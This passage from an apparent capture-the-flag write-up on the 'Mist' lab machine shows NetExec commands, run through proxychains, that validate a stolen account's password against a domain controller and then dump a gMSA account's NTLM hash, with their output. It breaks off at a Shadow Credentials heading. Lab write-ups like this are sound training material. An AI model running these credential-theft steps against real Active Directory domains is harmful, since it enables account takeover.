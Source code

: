 Now we can test the password on ```op_Sharon.Mullard```

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'op_Sharon.Mullard' -p 'REDACTED'
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAPS       192.168.100.100 636    DC01             [+] mist.htb\op_Sharon.Mullard:REDACTED 
```
## Read GMSA Passwords

On bloodhound we can see this : 

![alt text](<../assets/image_mist/7ER BLOODHOUND.png>)

Ok so let's read gmsa password first :

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'op_Sharon.Mullard' -p 'REDACTED' --gmsa
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAPS       192.168.100.100 636    DC01             [+] mist.htb\op_Sharon.Mullard:REDACTED 
LDAPS       192.168.100.100 636    DC01             [*] Getting GMSA Passwords
LDAPS       192.168.100.100 636    DC01             Account: svc_ca$              NTLM: e2[...]d5
```
## ShadowCreds Attack
